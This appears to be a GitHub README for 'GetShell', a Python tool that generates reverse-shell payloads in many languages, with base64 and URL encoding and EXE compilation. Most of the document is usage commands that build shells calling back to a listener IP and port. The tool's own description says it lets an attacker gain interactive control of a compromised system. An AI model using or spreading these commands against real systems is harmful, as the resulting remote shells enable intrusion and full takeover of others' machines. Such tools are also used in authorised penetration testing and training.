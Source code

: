# Getshell
* Get shell is  generator reverseshell  help you to gett reverseshell have opetion to convert to exe and also encode base64 and url encode 
To gain control over a compromised system, an attacker usually aims to gain interactive shell access for arbitrary command execution. With such access, they can try to elevate their privileges to obtain full control of the operating .
### Support types of reverseshell :-
------------------------------------------------
* Spport type  is :  python
* Support type is :  bash
* Support type is :  perl
* Support type is :  php
* Support type is :  ruby
* Support type is :  netcat
* Support type is :  xterm
* Support type is :  java
* Support type is :  powershell
* Support type is :  js
* Support type is :  exe
## How to use :- 
----------------------------------------
* git clone https://github.com/jac11/GetShell.git
* cd GetShell
* chmod 755 getshell.py
### Command :
---------------------------------
* to check types reverseshell suport
````
./getshell.py --info
````
* to generate python reverseshell liunx 
```
 ./getshell.py -t python -i 10.195.100.22 -p 4444
```
*  to generate python reverseshell windows
```
./getshell.py -t python -i 10.195.100.22 -p 4444 -W
```
* to generate powershell reverseshell 
```
./getshellpy -t powershell -i 10.195.100.223 -p 4444 
```
*  to generate powershell reverseshell base64 or urlencode 
```
./getshellpy -t powershell -i 10.195.100.223 -p 4444 -B84
./getshellpy -t powershell -i 10.195.100.223 -p 4444 -UE
```
* write output in to file and -o 
```
./getshellpy -t powershell -i 10.195.100.223 -p 4444 -B84 -o
```
### EXE reversehell 
-------------------------------
* to can auto compile to exe file required " sudo apt-get install mingw-w64 "
* after insatll mingw-w64 you can compile to exe as
``` 
./getshell.py -t exe -i 10.195.100.22 -p 4444 
```
### python file :
----------------------------------
* to generate python file not oneline shell for windows or linux use 
```
./getshell.py -t python -i 10.195.100.22 -p 7777 -F 
./getshell.py -t python -i 10.195.100.22 -p 7777 -F -W 
```
### note :
* all output file will autosave at /Stote_shell/ folder 
* option -i and  -p  your listiner ip and  port 
### Connect me :
   * jac11devel@gmail.com
   * Thankypu
